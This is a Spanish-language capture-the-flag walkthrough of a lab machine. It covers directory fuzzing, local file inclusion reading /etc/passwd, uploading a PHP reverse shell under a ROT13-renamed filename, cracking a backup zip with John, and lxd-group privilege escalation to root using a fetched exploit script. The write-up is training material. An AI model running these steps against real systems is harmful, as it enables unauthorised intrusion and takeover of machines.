

# User flag

Iniciamos el análisis de la máquina realizando un escaneo con **Nmap** para identificar los puertos abiertos. Los resultados muestran que los puertos 22 (SSH) y 80 (HTTP) están accesibles:


Accedemos al sitio web disponible en el puerto 80 y encontramos la siguiente página principal:


Tras interactuar con la página, no identificamos información relevante que pudiera ser utilizada como un posible vector de ataque. Por ello, decidimos realizar un ataque de _fuzzing_ de directorios utilizando **Gobuster** para descubrir posibles recursos ocultos:


Durante el _fuzzing_, encontramos un directorio llamado **wow**. Al acceder, encontramos una pista:


Sin embargo, esta pista no aporta información útil para este punto de la intrusión. Continuamos explorando posibles evidencias en la página y observamos varias referencias a la palabra **NAMARI**. Esto nos lleva a probar la existencia de un directorio con ese nombre, logrando acceder con éxito.


En el directorio **NAMARI**, encontramos una funcionalidad que permite subir archivos y realizar _inclusión de archivos locales_ (**LFI**, _Local File Inclusion_). Para comprobar el funcionamiento de esta funcionalidad, intentamos incluir el archivo `/etc/passwd`:


Aunque logramos acceder a este archivo, no tuvimos éxito al intentar acceder a otros archivos de configuración. Por otro lado, la funcionalidad de subida de archivos parecía permitir la transferencia, pero al intentar acceder a los archivos subidos en el endpoint `uploads`, recibimos un error.

Ante esta situación, decidimos analizar el archivo `index.php` (responsable de manejar la funcionalidad de LFI y subida de archivos).


Después de ejecutar la petición, se nos muestra una cadena de caracterers en base64 los cuales decodeamos para obtener el contenido  del archivo `index.php`.

```bash
echo "Cgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZXMiPgo8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9IlVURi04Ij4KICAgIDx0aXRsZT5TdWJpZGEgZGUgQXJjaGl2b3MgeSBMRkk8L3RpdGxlPgogICAgPHN0eWxlPgogICAgICAgIGJvZHkgewogICAgICAgICAgICBmb250LWZhbWlseT..." | base64 -d > index.php
```

Al examinar el código, notamos que el nombre del archivo subido es transformado mediante la función **ROT13** antes de ser almacenado en el servidor.


Con esta información, generamos una [reverse shell en PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y la subimos con el nombre `rev.php`. Posteriormente, utilizamos ROT13 para transformar el nombre del archivo a `eri.php`, permitiéndonos ejecutar la reverse shell.


Para hacer la conversión yo use un [recurso online](https://es.functions-online.com/str_rot13.html).

A continuación, consultamos el archivo contenido en la carpeta uploads http://192.168.1.62/NAMARI/index.php?page=uploads/eri.php y obtenemos acceso como el usuario **www-data**.


Para poder trabajar con mayor comodidad recomiendo hacer un upgrade de la shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

En la página web se nos daba la pista de acceder al directorio */opt*, así que lo hacemos, encontrando un archivo de backup.


Para transmitir el archivo a nuestra máquina local y analizarlo mejor ejecutamos los siguientes comandos:

```bash
# target machine
python3 -m http.server 1234

# local machine
wget 192.168.1.62:1234/pot/.XXX/backup.zip 
```

Al intentar descomprimir el archivo zip nos encontramos con que necesitamos una contraseña para hacerlo.


De todas maneras, no está todo perdido, ya que podemos crackear el archivo zip utilizando `John`. Para ello primero pasamos el archivo zip  a formato `John`.

```bash
zip2john backup.zip > backup_hash_file 
```

Después, ejecutamos `John` usando la wordlist rockyou para crackear el archivo y encontrar su contraseña.


Al exportar el contenido del archivo zip encontramos lo que parece ser la contraseña del usuario Rodgar.


Al ejecutar el comando `su Rodgar` para cambiar al usuario Rodgar utilizando la contraseña tenemos éxito y ya podemos obtener la flag de user.


# Root flag

Para la escalada de privilegios, transferimos **LinPEAS** a la máquina víctima y lo ejecutamos para identificar vulnerabilidades:

```bash
# local machine
python3 -m http.server 80

# target machine
wget http://192.168.1.53/linpeas.sh 
```

Al ejecutarlo, vemos como se nos marca en amarillo la pertenencia al grupo sudo y al grupo lxd.


Tras una breve pregunta a ChatGpt sobre lo que es **lxd** este nos dice:

`Los miembros del grupo lxd pueden crear y administrar contenedores, lo que puede ser aprovechado para obtener acceso de superusuario (root) en el sistema anfitrión.
`

Para llevar a cabo la explotación de **lxd** podemos hacerlo manualmente siguiendo la guía de [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) o utilizar el exploit disponible en searchsploit.



Al revisar el contenido del exploit vemos cuales son los distintos pasos a seguir:

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

sudo ./build-alpine

# local machine
python3 -m http.server 80

# target machine
wget http://192.168.1.53/46978.sh 
wget http://192.168.1.53/alpine-v3.13-x86_64-20210218_0139.tar.gz 

./46978.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz 
```

Después de ejecutar el exploit ya obtenemos acceso a la máquina como root.
